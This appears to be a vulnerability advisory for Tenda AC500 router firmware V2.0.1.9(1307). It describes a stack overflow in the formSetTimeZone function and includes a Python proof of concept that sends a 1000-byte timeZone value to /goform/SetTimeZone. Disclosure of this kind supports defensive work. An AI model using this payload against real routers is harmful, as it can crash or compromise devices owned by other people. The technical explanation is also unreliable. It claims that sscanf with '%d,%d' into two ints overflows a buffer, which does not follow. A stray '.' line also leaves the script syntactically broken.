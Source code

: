 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2470.html

## Affected version

AC500 V2.0.1.9(1307)

## Vulnerability details

The Tenda AC500 V2.0.1.9(1307) firmware has a stack overflow vulnerability in the `formSetTimeZone` function. The `s` variable receives the `timeZone` parameter from a POST request and is later assigned to the `v12, v13` variable, which is fixed at 4 bytes. However, since the user can control the input of `timeZone`, the statement `sscanf(s, "%d,%d", &v12, &v13);` can cause a buffer overflow. The user-provided  `timeZone` can exceed the capacity of the `v12, v13` array, triggering this security vulnerability.

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410161330290.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetTimeZone"
payload = b"a"*1000

data = {"timeZone": payload}
response = requests.post(url, data=data)
print(response.text)
.
```

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410100105349.png)